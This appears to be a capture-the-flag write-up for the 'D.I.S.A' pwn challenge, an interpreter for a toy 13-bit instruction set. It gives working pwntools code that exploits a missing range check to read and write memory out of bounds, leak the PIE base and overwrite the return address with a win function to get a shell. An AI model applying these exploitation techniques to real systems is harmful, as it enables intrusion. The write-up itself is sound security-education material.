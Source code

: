 # D.I.S.A

This program provides an interpreter for D.I.S.A. (Dumb Instruction Set Architecture), a language built for 13-bit computers.

The instruction set works on one register (called `dat`) which is meant to contain 13 bits but is stored as a 16-bit value.
It also contains an array of 13 bit ints (stored again as 16 bit ints) called `cells` with an index called `addr`.

The following instructions are defined:
- `NOP` - does nothing
- `ST` - sets `cells[addr]` to `dat`
- `LD` - sets `dat` to `cells[addr]`
- `PUT num` - sets `dat` to num. Does not allow anything outside of 13 bit range.
- `JMP` - sets `addr` to `dat`
- `ADD` - adds `dat` to `cells[addr]`
- `RD` - prints `dat` to the screen
- `END` - exits program

The vulnerability here is that the only check for numbers being in the 13 bit range is within `PUT`.
`ADD`, however, can be called repeatedly, and then `LD` can be used to set `dat` to any value.

Here's a Python function to `JMP` to an arbitrary address:

```python
def jmp_index(index):
    # cells[0] = 0
    io.sendline(b'PUT 0')
    io.sendline(b'JMP')
    io.sendline(b'ST')

    # cells[0] = index
    while index > 0:
        if index > MAX_VAL_SIGNED:
            chunk = MAX_VAL_SIGNED
        else:
            chunk = index
        io.sendline(b'PUT ' + str(chunk).encode("utf-8"))
        io.sendline(b'ADD')
        index = index - chunk

    # addr = index
    io.sendline(b'LD')
    io.sendline(b'JMP')
```

Using this, we can write a function to read 8 bytes of memory off from any "index" (including if we overflow)

```python
def get_index(index):
    jmp_index(index)

    # read value to screen
    io.sendline(b'LD')
    io.sendline(b'RD')
    return int((struct.pack('>h', int(io.recvline())).hex()),16)

def get_8bytes(index):
    val = 0
    for i in range(4):
        val += get_index(index - (3 - i)) << (16 * i)
    return val
```

Likewise, we can write a similar pair of  function to store any 8 bytes at any "index"

```python
def set_index(index, value):
    jmp_index(index)
    io.sendline(b'PUT 0')
    io.sendline(b'ST')

    while value != 0:
        if value > MAX_VAL_SIGNED:
            chunk = MAX_VAL_SIGNED
        else:
            chunk = value
        io.sendline(b'PUT ' + str(chunk).encode("utf-8"))
        io.sendline(b'ADD')
        value = value - chunk

def set_8bytes(index, value):
    for i in range(4):
        set_index(index - i, (value >> (16 * (3 - i))) & 0xFFFF )
```

To determine where bytes are aligned, I first printed out a large region of indeces, and after 
some experimentation found that the canary was at an index of `8207`, since those 8 bytes were
random with each run.

This let me find the return address at an index of `8215`, and the address of
the main function at an index of `8231` which let me build this program:

```python
import pwn

pwn.context.binary = elf = pwn.ELF("./disa")
if pwn.args.REMOTE:
    io = pwn.remote("challs.pwnoh.io",13430)
else:
    io = pwn.process("./disa")


return_idx = 8215
main_idx = return_idx + 16

ret = get_8bytes(return_idx)
main = get_8bytes(main_idx)
base = main - elf.symbols['main']
win = base + elf.symbols['win']

set_8bytes(return_idx, win)

io.sendline(b'END')
io.interactive()

```

Running this gave me a shell, which included "flag.txt". I `cat`'d the flag, which gave
me the following flag: `bctf{w417_4c7u411y_13_b17_c0mpu73r5_fuck1n9_5uck}`

